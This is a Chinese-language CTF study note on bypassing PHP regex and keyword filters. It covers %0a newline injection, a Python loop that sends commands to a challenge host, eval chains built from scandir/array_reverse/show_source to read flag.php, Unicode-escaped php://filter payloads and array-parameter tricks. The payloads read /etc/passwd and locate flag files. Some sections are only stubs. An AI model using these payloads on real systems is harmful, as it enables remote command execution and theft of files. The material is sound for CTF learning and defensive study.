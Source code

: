 ## **特殊正则绕过1**
```
if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias省略见下面|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];


preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|
compgen|complete|continue|declare|dirs|disown|
echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|
kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|
shopt|source|suspend|test|times|trap|type|typeset|ulimit|
umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) 

```
正则匹配表达式采用了^xxx$的格式，同时也采用了.*这样的贪婪匹配，所以有两个方案来绕过正则——回溯次数超限和利用%0a。

^
#### **1、%0a绕过**
因为正则匹配中'^'和'$'代表的是行的开头和结尾,所以能利用换行绕过。
![](.topwrite/assets/image_1728045913134.png)
```
cmd={"cmd":"/bin/cat%20/etc/passwd"}
cmd=%0a%0a{"cmd":"/bin/cat%20/etc/passwd"}%0a%0a
cmd=%0a%0a{"cmd":"/usr/bin/find%20/%20-name%20flag*"}%0a%0a
```

其他案例：
```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```
$_SERVER['QUERY_STRING']获取查询语句，既要绕过get参数中下划线_的过滤，用.替换，还要绕过正则匹配的23333，通过%0a。
```
?b.u.p.t=23333%0a
```

^
#### **2、回溯次数超限绕过**
```
import requests as res

url="http://a3388f0b-b347-4570-ad9e-88649da2aa29.node4.buuoj.cn:81/"
while(True):
    payload=input("resp:")
    resp=res.get(url,params={"cmd":'\x0a\x0a{"cmd":"%s"}\x0a\x0a'%(payload)})
    print(resp.text)
```





^
## **无字母RCE绕过**
不可大于字符：1、url 。2、异或
自增


^
## **冷门函数绕过正则**
```
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
```
保留的英文字母和英文()，就是使用函数绕过。
构造：?c=print_r(scandir(pos(localeconv()))); 
得到：Array ( [0] => . [1] => … [2] => flag.php [3] => index.php ) 
现在要读取到倒数第二的文件，使用数组逆序函数 
构造：?c=print_r(array_reverse(scandir(pos(localeconv())))); 
得到：Array ( [0] => index.php [1] => flag.php [2] => … [3] => . ) 
再进行读取 构造：?c=print_r(next(array_reverse(scandir(pos(localeconv()))))); 
继续读：?c=show_source(next(array_reverse(scandir(pos(localeconv())))));


^
^
## **JSON绕过关键词过滤**
JSON可以使用UNicode的16进制编码绕过。
如
```
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}
```

^
## **传参变数组绕过**
```
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
die('Invalid nickname');

这里只需要
nickname=;;;;;
变成
nickname[]=;;;;
即可绕过
```